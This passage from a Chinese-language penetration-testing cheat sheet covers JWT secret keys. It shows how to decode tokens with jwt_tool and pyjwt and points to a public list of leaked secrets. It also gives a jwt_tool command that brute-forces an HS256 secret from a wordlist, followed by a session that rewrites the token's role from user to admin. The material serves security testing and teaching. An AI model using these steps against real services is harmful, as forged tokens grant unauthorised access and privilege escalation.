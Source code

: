 > 创建 JWT 时，使用秘密密钥对头部和负载进行签名，从而生成签名。必须保密并安全地保管秘密密钥，以防止未经授权访问 JWT 或篡改其内容。如果攻击者能够访问秘密密钥，他们可以创建、修改或签署自己的令牌，绕过预期的安全控制。

### 使用秘钥编码和解码 JWT

- 使用 [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool)：

    ```ps1
    jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds
    jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiSm9obiBEb2UifQ.xuEv8qrfXu424LZk8bVgr9MQJUIrp1rHcPyZw_KSsds -T
    
    Token header values:
    [+] alg = "HS256"
    [+] typ = "JWT"

    Token payload values:
    [+] name = "John Doe"
    ```

- 使用 [pyjwt](https://pyjwt.readthedocs.io/en/stable/): `pip install pyjwt`

    ```python
    import jwt
    encoded = jwt.encode({'some': 'payload'}, 'secret', algorithm='HS256')
    jwt.decode(encoded, 'secret', algorithms=['HS256']) 
    ```

### 破解 JWT 秘钥

有用的 3502 个公共可用的 JWT 列表：[wallarm/jwt-secrets/jwt.secrets.list](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)，包括 `your_jwt_secret`、`change_this_super_secret_random_string` 等。

#### JWT 工具

首先，使用 [ticarpi/jwt_tool](https://github.com/ticarpi/jwt_tool) 暴力破解用于计算签名的秘密密钥。

```powershell
python3 -m pip install termcolor cprint pycryptodomex requests
python3 jwt_tool.py eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwicm9sZSI6InVzZXIiLCJpYXQiOjE1MTYyMzkwMjJ9.1rtMXfvHSjWuH6vXBCaLLJiBghzVrLJpAQ6Dl5qD4YI -d /tmp/wordlist -C
```

然后编辑 JSON Web Token 中的字段。

```powershell
当前 role 的值为: user
请输入新值并按回车
> admin
[1] sub = 1234567890
[2] role = admin
[3] iat = 1516239022
[0] 继续下一步

请选择字段编号（或 0 继续）：
> 0
```
